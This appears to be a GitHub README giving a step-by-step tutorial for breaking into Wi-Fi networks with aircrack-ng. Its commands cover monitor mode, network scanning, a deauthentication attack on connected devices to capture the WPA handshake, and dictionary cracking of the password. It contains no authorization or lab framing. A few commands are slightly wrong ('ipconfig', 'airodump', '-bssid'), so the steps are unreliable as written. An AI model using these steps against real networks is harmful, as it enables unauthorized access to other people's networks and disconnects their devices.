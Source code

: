 ## How to Hack a Wifi - Step By Step

In this Document i will guide step by step how to hack a wifi. YT Video: https://youtu.be/pGA_qOCNFfA


---

### Basic Information

#### 1.Encryption and authentication methods
- **Temporary Key Integrity Protocol(TKIP)**: Legacy protocol with dynamic key per packet and vulnerable to brute force.
- **Advanced Encryption Standard (AES)**: Secure symmetric encryption used in WPA2/WPA3 and standard in modern networks
- **Pre-Shared Key(PSK)**: Common protocol with shared key and vulerable to brute force.

---

### Requirements:
- Have Installed **aircrack-ng**.
- Wifi Adapter in Mode **Monitor**.

---


### 1. Download Aircrack-ng if you don't have Kali Linux
The first thing we need to do is install **aircrack-ng**. So to install it we need to type on the terminal: ```sudo apt-get install aircrack-ng```.

---

### 2. Turn Wifi Adapter into Mode Monitor
When we have installed aircrack-ng the next step will be turning the adapter into mode monitor. So to do that we need to go to terminal and add this command: ```sudo airmon-ng start [interface of the adapter]```.

If we don't know the interface of the adapter we will do a ```ipconfig``` to look which interfaces we have.

---

### 3. Scanning the Wifi Networks
To scan the wifi's that we could connect we will use the command: ```sudo airodump-ng [interface + mon]```. With this command we could see all the possible wifi networks, but we will focus on the one you want.

---

### 4. Capturing the Handshake
When we know the BSSID and the chanel of the wifi network we will do a handshake focus only that network. Adding this command: ```sudo airodump -c [channel of the wifi] -bssid [BSSID of the network] -w [name for the file] [interface of the adapter + mon]```.

Then we will do ```sudo aireplay-ng -0 5 -a [BSSID] -c [STATION number of the device] [interface of the adapter + mon]```to make an attack to the devices connected to capture the Handshake.

---

### 5. Cracking the password
Finally to have the password of the wifi network we need to write this command: ```sudo aircrack-ng -w [rute of wordlist.txt] [file .pcap]``` and this command will search the password trying all words of the wordlist.

---

